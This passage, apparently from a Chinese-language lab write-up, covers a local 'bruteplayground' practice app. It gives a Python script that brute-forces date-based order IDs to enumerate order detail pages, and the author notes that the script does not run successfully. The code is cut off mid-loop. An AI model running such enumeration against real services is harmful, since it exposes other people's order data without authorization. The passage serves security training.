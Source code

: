 

运行脚本：

![image-20250223183200359](../../_media/image-20250223183200359.png)

### 订单详情页面（爆破 / 遍历订单号为今日日期+4位数字 0000-9999）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id-2?orderId=202502230001
```

脚本按理来说应该如下：但是跑不出来，不知道是不是我的数据库问题

```python
import requests
from bs4 import BeautifulSoup
from datetime import datetime

base_url = "http://127.0.0.1/bruteplayground/by-order-id-2"
start_id = 0
end_id = 9999
cookies = {}
headers = {
    "Host": "127.0.0.1:",
    "User-Agent":"Mozilla/5.0" ,
    "Accept": "*/*",
    "Connection": "close",
}
years=datetime.today().year
months=datetime.today().month
days=datetime.today().day

for order_id in range(start_id, end_id + 1):
    url = f"{base_url}?orderId={years}{months:02}{days:02}{order_id:04}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            if "订单号不存在" not in soup.text:
                print(f"{order_id}: {response.url}")
        else:
```